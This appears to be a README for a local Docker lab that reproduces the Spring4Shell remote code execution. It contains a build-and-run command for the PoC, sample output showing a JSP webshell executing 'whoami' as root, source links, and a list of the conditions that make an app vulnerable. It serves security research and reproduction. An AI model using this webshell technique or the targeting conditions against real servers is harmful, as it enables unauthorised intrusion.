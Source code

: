 Trial & error:
```sh
docker rm -f rce; docker build -t rce:latest . && docker run -d -p 8080:8080 --name rce rce:latest && sleep 5 && python poc.py
```


Output example:
```
rce
sha256:f626a2190dc0790c610afd4f12a4b2482b6a726d671fdac1432275de89c07cd6
1a048e5725f754d331de9491d0750c4c7a163472dea1fd1554edccfd00d7f6e5
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?cmd=whoami
root
```


Sources:
  - https://twitter.com/vxunderground/status/1509170582469943303 / https://github.com/craig/SpringCore0day
  - https://github.com/fengguangbin/spring-rce-war


Vulnerable app requirements[^1]:
- JDK 9 or above
- Standalone Tomcat (no Embedded Tomcat)
- Any Spring version
- No blocklist on WebDataBinder / InitBinder
- Parameter bind with POJOs directly (no @RequestBody, @RequestQuery, etc.)
- Writeable file system (e.g webapps/ROOT)

[^1]: Assuming exploits similar to the known PoCs. There might be other gadgets...
